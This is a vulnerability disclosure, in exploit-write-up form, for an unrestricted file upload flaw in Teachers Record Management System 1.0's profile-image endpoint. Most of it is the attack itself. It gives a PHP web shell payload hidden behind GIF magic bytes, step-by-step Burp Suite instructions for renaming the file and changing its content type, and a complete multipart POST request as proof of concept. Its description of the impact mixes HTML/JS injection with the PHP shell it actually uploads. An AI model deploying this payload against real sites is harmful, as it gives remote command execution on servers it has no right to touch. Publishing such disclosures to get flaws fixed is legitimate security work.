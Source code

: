 ```
Exploit Title: Teachers Record Management System 1.0 – File Upload Type Validation Error in /changeimage
Date: 17-01-2023
Vendor Homepage: https://phpgurukul.com
Software Link: https://phpgurukul.com/teachers-record-management-system-using-php-and-mysql/
Version: 1.0
Tested on: Windows 11 + XAMPP 
```
<h1>TITLE</h1>
Teachers Record Management System 1.0 – File Upload Type Validation Error in /changeimage

<h2>DESCRIPTION</h2>
The upload functionality of updating user profile does not properly validate the file content-type, 
filename, allowing any authenticated user to bypass this security check by adding a valid signature (p.e. GIF89) 
and sending any invalid content-type. This could allow an authenticated attacker to upload HTML files with JS content 
that will be executed in the context of the domain.

## PAYLOAD-USED ##
 ` GIF89a <?php echo system($_REQUEST['dx']); ?> `

<h2>STEPS-TO-REPRODUCE</h2>

1. Login into Teacher-Account with the credentials “**Username:** jogoe12@yourdomain.com”
**Password: Test@123**”

2. Navigate to Profile Section and edit the Profile Pic by clicking on **Edit Image**
3. Open the Burp-suite and Intercept the  Edit Image Request 
4. In POST Request Change the “ **Filename** “ from “ **profile picture.png** “  to  “**profile picture.php.gif** ” 
5. Change the **Content-type from “ image/png “ to “ image/jpg “**
6. And Add this **Payload** : ` GIF89a <?php echo system($_REQUEST['dx']); ?> `
7. Where **GIF89a is the GIF magic bytes this bypass the file upload extension**
8. Below is the Burpsuite-POST Request for all the changes that I have made above

<h2>PROOF-OF-CONCEPT</h2>
The following request was modified to allow uploading php file using a valid GIF signature, but can be modified to upload any kind of content-type:

```
POST /trms/teacher/changeimage.php HTTP/1.1
Host: localhost
Content-Length: 442
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryndAPYa0GGOxSUHdF
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/trms/teacher/changeimage.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=8alf0rbfjmhm3ddra7si0cv7qc
Connection: close

------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="subjects"

John Doe
------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="newpic"; filename="profile picture.php.gif"
Content-Type: image/gif

GIF89a <?php echo system($_REQUEST['dx']); ?>

------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryndAPYa0GGOxSUHdF--
```
![Teacher-management-poc-file-upload-1](https://user-images.githubusercontent.com/98345027/212889242-0b6bf2d9-d68e-428d-a2ea-c53418b6fa70.png)


<h2>IMPACT</h2>
This could allow an attacker to write custom pages ,Those pages can contain phishing html 
or even JS code that will be executed in the context of the active user browser, and also this
could allow an attacker to overwrite critical files simply by uploading a file with the same name

<h3>REFERENCE</h3>

[CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

